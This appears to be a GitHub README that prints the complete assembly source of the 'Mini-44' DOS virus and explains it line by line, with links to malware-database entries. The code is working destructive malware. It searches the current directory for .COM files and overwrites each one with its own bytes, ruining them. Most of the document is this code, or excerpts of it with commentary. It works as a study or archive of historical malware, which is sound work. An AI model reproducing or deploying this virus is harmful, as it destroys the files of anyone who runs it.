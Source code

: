 # Mini-44 DOS Virus

## Source Code
```assembly
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

1.  **Setup and Initial Search**:
    
    -   `.model small`: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
    -   `FNAME EQU 9EH`: This sets the label `FNAME` to the hexadecimal value `9EH`, which is used as an offset for where the file name is stored in memory after a file search.
    -   `ORG 100H`: This sets the code's origin to address `0100H`, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).
2.  **File Search and Opening**:
    
    -   The program begins by searching for `.COM` files using DOS interrupt `21H` with function `4EH` (find first file).
    -   The file name pattern `*.COM` is used for the search.
    -   If a file is found, the program then opens it using function `3D01H` (open file for writing).
3.  **Modifying the File**:
    
    -   The program appears to write 42 bytes (`CL = 42`) of data from its own code (`DS:0100H`) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
    -   After writing, it closes the file using function `3EH` (close file handle).
4.  **Continuing the Search**:
    
    -   The program then searches for the next `.COM` file using function `4FH`.
    -   If another file is found, the loop continues; otherwise, the program exits.
5.  **Termination**:
    
    -   The program ends with a `ret` instruction, returning control to DOS.

## Details


### 1. Initial Setup

`.model small` 

-   This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.

`FNAME   EQU     9EH             ;search-function file name result` 

-   `FNAME` is defined as a constant with the value `9EH`. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.

`ORG     100H` 

-   Sets the origin of the code to memory address `0100H`. DOS .COM programs start at this offset, following the 256-byte PSP.

### 2. File Search and Opening

```assembly
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```

-   Sets up a call to DOS interrupt `21H` with function `4EH` (find first file matching a pattern). The pattern `*.COM` is provided by the address in `DX`.

```assembly
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```
-   If a file is found, this part tries to open it for writing. `3D01H` in `AX` is the DOS function to open a file. The filename is pointed to by `DX`.

### 3. Writing to the File

```assembly
 xchg    ax,bx           ;swap file handle to BX
        mov     ah,40H          ;prepare to write to the file
        mov     cl,42           ;size of data to write
        mov     dx,100H         ;data location (start of the program)
        int     21H
```
-   After opening the file, it writes 42 bytes from the beginning of the program (`DS:0100H`) to the file. This is typical of a virus that replicates by inserting its code into other executables.

### 4. Closing the File and Searching for the Next File

```assembly
mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next .COM file
        int     21H
        jmp     SEARCH_LP
```
-   Closes the current file and searches for the next `.COM` file. If another file is found, the process repeats.

### 5. Termination
```assembly
DONE:
        ret                     ;exit to DOS
```
-   Once no more files are found, the program exits and returns control to DOS.

### 6. COM File Pattern
```assembly
COM_FILE DB      '*.COM',0      ;string for COM file search
```
-   This is the data definition for the file search pattern, `*.COM`, used by the program.

## Links

* https://www.virustotal.com/gui/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5/community
* https://mwdb.cert.pl/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5